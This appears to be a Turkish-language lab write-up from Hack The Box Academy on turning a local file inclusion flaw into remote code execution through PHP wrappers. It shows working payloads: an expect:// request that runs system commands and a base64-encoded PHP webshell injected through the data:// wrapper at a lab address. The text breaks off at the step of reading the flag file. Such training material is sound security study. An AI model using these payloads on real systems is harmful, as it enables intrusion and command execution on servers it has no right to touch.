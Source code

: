 ```shell-session
M1R4CKCK@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

Gördüğümüz gibi, `extension` configuration anahtar sözcüğü `expect` modülünü etkinleştirmek için kullanılıyor, bu da LFI açığı üzerinden RCE elde etmek için kullanabilmemiz gerektiği anlamına geliyor. expect modülünü kullanmak için, `expect://` wrapper'ı kullanabilir ve ardından çalıştırmak istediğimiz komutu aşağıdaki gibi iletebiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Gördüğümüz gibi, `expect` modülü aracılığıyla komutları yürütmek oldukça basittir, çünkü bu modül daha önce de belirtildiği gibi komut yürütme için tasarlanmıştır. [Web Saldırıları](“https://academy.hackthebox.com/module/details/134”) modülü ayrıca `expect` modülünün XXE güvenlik açıkları ile kullanımını da kapsar, bu nedenle burada nasıl kullanılacağını iyi anladıysanız, XXE ile kullanmak için hazır olmalısınız.  

Bunlar, LFI güvenlik açıkları aracılığıyla sistem komutlarını doğrudan çalıştırmak için en yaygın üç PHP wrapper'ıdır. İlerleyen bölümlerde `phar` ve `zip` wrapper'larını da ele alacağız, bunları dosya yüklemelerinin LFI güvenlik açıkları yoluyla uzaktan yürütme kazanmasına izin veren web uygulamalarıyla kullanabiliriz.

Soru : PHP wrappers'lardan birini kullanarak RCE elde etmeye çalışın ve / adresindeki bayrağı okuyun

Cevap : 

1- Öncelikle allow_url_include özelliği aktifmi onu tespit edelim .

![Pasted image 20241118020217.png](/img/user/resimler/Pasted%20image%2020241118020217.png)

![Pasted image 20241118020229.png](/img/user/resimler/Pasted%20image%2020241118020229.png)

2- Base64 formatında bir webshell oluşturuyoruz.

![Pasted image 20241118020245.png](/img/user/resimler/Pasted%20image%2020241118020245.png)

3- WebShell’imizi aktaralım .

```shell-session
http://83.136.254.199:38194/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```


![Pasted image 20241118020429.png](/img/user/resimler/Pasted%20image%2020241118020429.png)

4- Root dizininde ls komutunu çalıştıralım → ls /

![Pasted image 20241118020443.png](/img/user/resimler/Pasted%20image%2020241118020443.png)

5- İlginç bir txt uzantılı dosya görüyoruz cat ile okuyalım .
